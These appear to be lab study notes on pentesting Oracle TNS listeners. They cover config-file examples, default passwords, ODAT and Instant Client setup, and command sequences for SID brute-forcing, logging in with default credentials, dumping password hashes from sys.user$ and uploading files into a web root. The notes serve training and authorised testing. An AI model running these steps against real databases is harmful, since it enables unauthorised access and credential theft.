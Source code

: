 # Oracle TNS Pentest Notes

## Overview
- **Oracle Transparent Network Substrate (TNS):** Protocol for communication between Oracle DBs and clients.
- Supports multiple protocols (TCP/IP, IPX/SPX, SSL/TLS, IPv6).
- Used for: name resolution, connection management, load balancing, security.
- Key config files: `tnsnames.ora` (client-side), `listener.ora` (server-side).

---

## Default Configuration
- **Listener Port:** TCP/1521 (default, can be changed).
- **Config Files Location:** `$ORACLE_HOME/network/admin`
- **Security:** Basic authentication, can restrict by host/IP, supports encrypted comms.
- **Default Passwords:** 
    - Oracle 9: `CHANGE_ON_INSTALL`
    - DBSNMP: `dbsnmp`
    - Oracle 10+: No default password

### Example: `tnsnames.ora`
```txt
ORCL =
    (DESCRIPTION =
        (ADDRESS_LIST =
            (ADDRESS = (PROTOCOL = TCP)(HOST = 10.129.11.102)(PORT = 1521))
        )
        (CONNECT_DATA =
            (SERVER = DEDICATED)
            (SERVICE_NAME = orcl)
        )
    )
```

### Example: `listener.ora`
```txt
SID_LIST_LISTENER =
    (SID_LIST =
        (SID_DESC =
            (SID_NAME = PDB1)
            (ORACLE_HOME = C:\oracle\product\19.0.0\dbhome_1)
            (GLOBAL_DBNAME = PDB1)
            (SID_DIRECTORY_LIST =
                (SID_DIRECTORY =
                    (DIRECTORY_TYPE = TNS_ADMIN)
                    (DIRECTORY = C:\oracle\product\19.0.0\dbhome_1\network\admin)
                )
            )
        )
    )

LISTENER =
    (DESCRIPTION_LIST =
        (DESCRIPTION =
            (ADDRESS = (PROTOCOL = TCP)(HOST = orcl.inlanefreight.htb)(PORT = 1521))
            (ADDRESS = (PROTOCOL = IPC)(KEY = EXTPROC1521))
        )
    )

ADR_BASE_LISTENER = C:\oracle
```

---

## Key Parameters (Cheatsheet)
| Setting                | Description                                               |
|------------------------|----------------------------------------------------------|
| DESCRIPTION            | Descriptor for DB and connection type                    |
| ADDRESS                | Hostname/IP and port                                     |
| PROTOCOL               | Network protocol (TCP, etc.)                             |
| PORT                   | Port number                                              |
| CONNECT_DATA           | Connection attributes (service/SID, etc.)                |
| INSTANCE_NAME          | DB instance name                                         |
| SERVICE_NAME           | Service name                                             |
| USER/PASSWORD          | Auth credentials                                         |
| SECURITY               | Security type                                            |
| VALIDATE_CERT          | SSL/TLS cert validation                                 |
| SSL_VERSION            | SSL/TLS version                                          |
| CONNECT_TIMEOUT        | Connection timeout (sec)                                 |
| SQLNET.EXPIRE_TIME     | Connection failure detection (sec)                       |
| TRACE_LEVEL, TRACE_DIR | Tracing/debugging                                        |

---

## Tools & Setup

### Install Oracle Instant Client & ODAT
```bash
wget https://download.oracle.com/otn_software/linux/instantclient/214000/instantclient-basic-linux.x64-21.4.0.0.0dbru.zip
wget https://download.oracle.com/otn_software/linux/instantclient/214000/instantclient-sqlplus-linux.x64-21.4.0.0.0dbru.zip
sudo mkdir -p /opt/oracle
sudo unzip -d /opt/oracle instantclient-basic-linux.x64-21.4.0.0.0dbru.zip
sudo unzip -d /opt/oracle instantclient-sqlplus-linux.x64-21.4.0.0.0dbru.zip
export LD_LIBRARY_PATH=/opt/oracle/instantclient_21_4:$LD_LIBRARY_PATH
export PATH=$LD_LIBRARY_PATH:$PATH
source ~/.bashrc
git clone https://github.com/quentinhardy/odat.git
cd odat/
pip install python-libnmap
git submodule init && git submodule update
pip3 install cx_Oracle pycryptodome
sudo apt-get install python3-scapy build-essential libgmp-dev -y
sudo pip3 install colorlog termcolor passlib python-libnmap
```

### Test ODAT
```bash
./odat.py -h
```

---

## Enumeration & Exploitation

### Nmap: Service Detection
```bash
sudo nmap -p1521 -sV <target-ip> --open
```

### Nmap: SID Bruteforce
```bash
sudo nmap -p1521 -sV <target-ip> --open --script oracle-sid-brute
```

### ODAT: All Modules
```bash
./odat.py all -s <target-ip>
```

### SQLplus: Connect
```bash
sqlplus scott/tiger@XE
```
- If error: `libsqlplus.so` missing, run:
    ```bash
    sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf"; sudo ldconfig
    ```

### SQLplus: Enumerate Tables & Privileges
```sql
select table_name from all_tables;
select * from user_role_privs;
```

### SQLplus: Connect as sysdba
```bash
sqlplus scott/tiger@XE as sysdba
```

### SQLplus: Extract Password Hashes
```sql
select name, password from sys.user$;
```

---

## File Upload (ODAT)
- **Linux web root:** `/var/www/html`
- **Windows web root:** `C:\inetpub\wwwroot`

```bash
echo "Oracle File Upload Test" > testing.txt
./odat.py utlfile -s <target-ip> -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
curl -X GET http://<target-ip>/testing.txt
```

---

## Best Practices & Pitfalls
- Change default passwords immediately after install.
- Restrict listener to trusted IPs.
- Disable remote management if not needed.
- Regularly audit user privileges and roles.
- Monitor logs for suspicious activity.

---

## Useful Links
- [Oracle Net Services Docs](https://docs.oracle.com/en/database/oracle/oracle-database/18/netag/introducing-oracle-net-services.html)
- [ODAT Tool](https://github.com/quentinhardy/odat)
- [SQLplus Commands](https://docs.oracle.com/cd/E11882_01/server.112/e41085/sqlqraa001.htm#SQLQR985)
- [Nmap Oracle Scripts](https://nmap.org/nsedoc/scripts/oracle-sid-brute.html)

---

## Checklist

- [ ] Install Oracle Instant Client & ODAT
- [ ] Enumerate open ports/services (nmap)
- [ ] Bruteforce SIDs (nmap/odat)
- [ ] Enumerate users/credentials (odat)
- [ ] Connect with SQLplus
- [ ] Enumerate tables, roles, privileges
- [ ] Extract password hashes
- [ ] Attempt file upload (if applicable)
- [ ] Document findings & mitigations
